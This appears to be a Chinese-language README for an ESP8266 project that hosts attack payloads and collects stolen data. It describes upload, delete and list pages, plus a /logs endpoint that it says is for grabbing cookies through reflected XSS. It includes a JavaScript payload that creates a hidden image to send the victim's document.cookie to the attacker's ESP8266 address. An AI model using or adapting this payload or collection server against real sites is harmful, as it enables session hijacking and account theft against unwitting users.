

# ESP8266-remote-payloads

### esp8266闪存文件应用

[详见太极创客](https://www.bilibili.com/video/BV1L7411c7jw?p=8)

### 使用的esp8266模块：

其他esp8266模块或开发板应该也行，只要有flash和WebServer库即可。


### /index.html页面：


### /upload.html页面：

上传的文件将被存储在“/payloads/”根目录下。


### /delete.html页面：

只需要输入文件名如“logs”即可删除“/payloads/”+文件名如“/payloads/logs”文件，文件名不能包含“..”！


### /list操作：

列出/payloads/根目录下的所有文件夹和文件。



### /logs操作：

参数（GET或POST）将会被追加在/payloads/logs文件中，用于反射型XSS漏洞获取Cookie等。

xss_reflect.js举例：

```js
//通过指定的名称'img'创建img元素
var img = document.createElement('img');
img.width = 0;
img.height = 0;

//将img元素的src属性指向脚本文件xss_reflect.php
//将cookie信息的字符串作为URI组件进行编码，然后用ck参数传递
img.src = 'http://192.168.1.103/logs?cookie='+encodeURIComponent(document.cookie);
//将192.168.1.103换成你esp8266服务器的地址
```

